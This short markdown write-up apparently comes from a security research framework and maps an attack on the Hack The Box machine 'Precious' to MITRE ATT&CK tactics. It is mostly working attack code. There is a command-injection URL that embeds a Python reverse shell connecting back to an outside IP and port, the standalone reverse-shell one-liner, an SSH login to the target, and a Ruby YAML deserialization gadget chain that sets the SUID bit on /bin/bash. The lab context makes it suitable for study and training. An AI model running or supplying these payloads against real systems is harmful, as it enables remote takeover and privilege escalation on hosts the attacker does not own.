 # Cyber4ML_Framework application in "Precious" HTB machine.

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command |
| - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) |
| Execution | Command and Scripting Interpreter | Unix Shell | (2) |
| Persistence | Valid Accounts | Default Accounts | (3) |
| Privilege Escalation | Exploitation for Privilege Escalation | - | (4) |

#### Commands
- (1)
```
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```
- (2)
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
- (3)
```
ssh henry@10.10.11.189
```
- (4)
```
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: "chmod +s /bin/bash"
          method_id: :resolve
```
